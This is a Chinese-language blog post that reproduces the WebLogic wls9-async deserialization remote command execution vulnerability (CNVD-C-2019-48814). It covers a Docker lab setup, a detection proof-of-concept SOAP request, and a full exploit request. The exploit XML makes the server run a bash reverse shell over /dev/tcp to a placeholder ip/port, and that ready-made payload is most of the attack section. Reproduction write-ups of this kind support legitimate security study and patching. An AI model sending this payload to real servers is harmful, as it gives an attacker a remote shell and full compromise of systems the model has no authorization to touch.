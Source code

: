 ```yaml
---
layout: post
title:  "weblogic 远程命令执行漏洞分析 (CNVD-C-2019-48814)"
date:   2019-8-2 16:18:43
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: weblogic 远程命令执行漏洞分析
cover: '/assets/img/posts/0d543f9aec58561aabc164648a1809d8.png'
---
```


## weblogic 远程命令执行漏洞  (CNVD-C-2019-48814）
### 漏洞概述
该漏洞存在于 wls9-async 组件，这个组件主要作用是异步通讯服务，攻击者可以向 /_async/AsyncResponseService 路径下传入构造好的恶意 xml 格式的数据，传入的数据在服务器端反序列化时，执行其中的恶意代码，从而可以 getshell。
### 漏洞环境搭建
docker 快速启动：
```bash
docker pull ismaleiva90/weblogic12

docker run -d -p 7001:7001 -p 7002:7002 --restart=always ismaleiva90/weblogic12:latest
```
访问：ip:7001/_async/AsyncResponseService 查看 wls9-async 组件是否启动成功
![avatar](/assets/img/posts/20190426101059760.png)
nmap 检测插件 [weblogic.nse](https://github.com/Rvn0xsy/nse_vuln/tree/master/weblogic/CNVD-C-2019-4814) 

### 漏洞复现
#### Poc：
向/_async/AsyncResponseService发送XMLPoc，连接类型content-type: text/xml：
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="POC">
<array class="xx" length="0">
</array>
<void method="start"/>
</void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body>
</soapenv:Envelope>
```
如果 res.status_code == 202 则可以判断存在漏洞

#### Exp：
向/_async/AsyncResponseService发送XMLPoc，连接类型content-type: text/xml：
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```
